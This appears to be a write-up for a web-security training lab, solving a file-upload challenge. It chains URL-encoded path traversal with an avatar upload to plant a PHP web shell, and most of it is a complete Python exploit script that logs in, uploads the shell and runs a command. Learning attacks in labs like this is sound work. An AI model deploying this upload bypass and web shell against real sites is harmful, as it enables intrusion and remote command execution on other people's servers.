 For this, the lab title tells us that one has to combine path traversal with this. This means that the directory of which avatars are uploaded blocks the execution of PHP code.

As such, I can rename the file to `../evil.php` so that it appears in the previous directory. 

For this, I renamed the file to `..%2fevil.php`, and accessed it at `/files/evil.php` instead of `/files/avatars/evil.php`.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a7a001303a8c8d280b01c6c008700e2'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':('..%2fevil.php', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] Upload failed")
	sys.exit(1)
print(r.text)
print("[+] Upload worked")


r = s.get(url + '/files/evil.php?cmd=id')
if '12002(carlos)' not in r.text:
	print(r.text)
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")
```